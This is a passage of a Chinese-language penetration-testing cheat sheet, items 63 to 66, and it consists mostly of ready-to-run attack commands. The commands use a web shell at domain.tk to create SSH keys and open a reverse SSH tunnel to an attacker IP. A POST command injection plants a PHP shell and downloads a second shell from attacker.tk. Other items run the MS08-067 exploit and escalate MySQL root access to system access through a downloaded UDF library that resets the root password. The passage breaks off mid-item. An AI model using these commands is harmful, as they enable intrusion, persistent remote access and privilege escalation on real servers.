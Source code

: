 > 
<pre>// 生成 shell 使用的 ssh 密钥
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"


// 增加用户 tempuser 
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh &amp;&amp; chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" &gt; /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh


// 反弹 ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@&lt;attacker_ip&gt;</pre>


### 64.利用 POST 远程命令执行获取 Shell

> 
<pre>attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Bwhoami&amp;submit=submit' 'http://victum.tk/command.php'


attacker:~$ curl -i -s -k  -X 'POST' --data-binary $'IP=%3Becho+%27%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%27+%3E+..%2Fshell.php&amp;submit=submit' 'http://victum.tk/command.php'


attacker:~$ curl http://victum.tk/shell.php?cmd=id


// 在服务器上下载 shell (phpshell.php)


http://victum.tk/shell.php?cmd=php%20-r%20%27file_put_contents%28%22phpshell.php%22,%20fopen%28%22http://attacker.tk/phpshell.txt%22,%20%27r%27%29%29;%27


// 运行 nc 并执行 phpshell.php
attacker:~$ nc -nvlp</pre>


### 65.MS08-067 – 不使用 Metasploit

> 
<pre>$ nmap -v -p 139, 445 --script=smb-check-vulns --script-args=unsafe=1 192.168.31.205
$ searchsploit ms08-067
$ python /usr/share/exploitdb/platforms/windows/remote/7132.py 192.168.31.205 1</pre>


### 66.通过 MySQL Root 账户实现提权

> 
<pre># Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql&gt; use mysql;
mysql&gt; create table foo(line blob);
mysql&gt; insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql&gt; select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql&gt; create function do_system returns integer soname 'raptor_udf2.so';
mysql&gt; select * from mysql.func;
mysql&gt; select do_system('echo "root:passwd" | chpasswd &gt; /tmp/out; chown user:user /tmp/out');
